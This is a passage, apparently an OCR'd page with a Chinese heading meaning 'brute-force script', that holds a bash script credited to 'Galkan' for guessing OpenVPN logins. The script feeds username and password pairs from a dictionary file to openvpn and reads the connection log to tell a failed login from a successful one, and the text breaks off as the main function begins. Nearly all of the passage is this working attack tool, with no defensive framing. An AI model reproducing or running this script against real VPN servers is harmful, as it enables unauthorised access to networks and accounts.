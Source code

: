 *爆破脚本：*

```bash
#!/bin/bash
# By Galkan 

openvpn_binary_path="/usr/sbin/openvpn"

function brute_force()
{
  	brute_file="`mktemp /tmp/brute_force_openvpn_$USER.XXXXXX`"
	output_file="`mktemp /tmp/brute_force_openvpn_$USER.XXXXXX`"

	rm -f $brute_file $output_file

	user_name="$1"
	password="$2"

	echo "$user_name" > "$brute_file"
	echo "$password" >> "$brute_file"

	$openvpn_binary_path --config $openvpn_config_file --auth-user-pass "$brute_file" > $output_file &
	
	while [ 1 ]
	do
		if [ -f "$output_file" ]
		then
			cat $output_file | grep -q "Options error"
			if [ $? -eq 0 ]
			then
				echo "ERROR: `cat $output_file | grep "Options error"`"
				break
			fi

			cat $output_file | grep -q "SIGTERM\[soft,auth-failure\] received, process exiting" 
			if [ $? -eq 0 ]
			then
				echo "$user_name:$password -> FAILURE"
				break	
			fi

			cat $output_file | grep -q "Initialization Sequence Completed" 
			if [ $? -eq 0 ]
			then
				echo "$user_name:$password -> SUCCESS"
				break	
			fi
		else
			continue
		fi
	done
	
	openvpn_pid="`pidof openvpn`"
	

	rm -f $brute_file $output_file 
}



function main()
{
	dict_file="$1"
```